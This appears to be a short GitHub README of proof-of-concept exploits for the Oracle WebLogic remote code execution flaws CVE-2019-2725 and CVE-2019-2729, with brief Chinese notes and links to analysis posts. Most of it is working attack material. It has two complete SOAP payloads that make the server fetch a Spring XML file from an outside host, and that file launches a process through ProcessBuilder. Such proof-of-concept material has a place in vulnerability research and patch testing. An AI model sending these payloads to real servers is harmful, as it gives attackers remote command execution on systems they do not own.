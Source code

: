 ### CVE-2019-2725_v10_v12
poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<class><string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

### CVE-2019-2729_v10
由于jdk的原因，`<array method="forName">`仅支持基于jdk6的v10.

poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<array method="forName">
<string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</array>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```



其中spel2.xml文件内容：
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><![CDATA[calc]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```


参考：
- [Weblogic-CVE-2019-2725分析通杀poc](https://p0rz9.github.io/2019/05/22/Weblogic-CVE-2019-2725%E5%88%86%E6%9E%90%E9%80%9A%E6%9D%80poc/)
- [Weblogic-CVE-2019-2725-通杀payload](http://www.lmxspace.com/2019/05/15/Weblogic-CVE-2019-2725-%E9%80%9A%E6%9D%80payload/)
- [WebLogic wls9-async组件RCE分析（CVE-2019-2725）](https://lucifaer.com/2019/05/10/WebLogic%20wls9-async%E7%BB%84%E4%BB%B6RCE%E5%88%86%E6%9E%90%EF%BC%88CVE-2019-2725%EF%BC%89/)
